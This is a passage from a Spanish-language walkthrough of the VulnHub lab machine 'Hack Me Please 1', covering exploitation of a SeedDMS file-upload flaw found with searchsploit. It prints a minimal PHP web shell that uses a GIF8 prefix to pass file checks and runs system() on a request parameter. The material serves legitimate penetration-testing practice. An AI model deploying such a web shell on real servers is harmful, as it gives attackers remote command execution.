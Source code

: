 ![seeddmsversion](/assets/img/commons/vulnhub/hack_me_please1/seeddmsversion.png){: .center-image }


## Explotación

---

Buscamos por *searchsploit* y encontramos que se puede subir un archivo el cual se almacena en una ruta oculta, teniendo ejecución de código.

![rs1](/assets/img/commons/vulnhub/hack_me_please1/rs1.png){: .center-image }

Subimos nuestro archivo, con el siguiente código.

```bash
❯ cat cmd.php
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: cmd.php
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ GIF8;
   2   │ <?php
   3   │ system($_GET['c']);
   4   │ ?>
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
